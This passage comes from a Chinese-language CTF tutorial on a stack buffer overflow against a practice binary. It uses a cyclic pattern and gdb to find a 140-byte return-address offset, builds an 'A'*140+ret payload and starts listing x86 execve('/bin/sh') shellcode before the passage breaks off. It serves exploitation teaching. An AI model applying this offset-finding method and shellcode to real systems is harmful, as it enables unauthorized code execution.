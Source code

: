 <code nodeIndex="164">#!bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
</code>
</pre>
<p nodeIndex="57">随后我们使用gdb ./level1调试程序。</p>
<pre class="prettyprint" nodeIndex="58">
<code nodeIndex="165">#!bash
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
</code>
</pre>
<p nodeIndex="59">我们可以得到内存出错的地址为0x37654136。随后我们使用命令：</p>
<pre class="prettyprint" nodeIndex="60">
<code nodeIndex="166">#!bash
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140
</code>
</pre>
<p nodeIndex="61">就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。</p>
<p nodeIndex="62">接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。</p>
<pre class="prettyprint" nodeIndex="63">
<code nodeIndex="167">#!c
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80
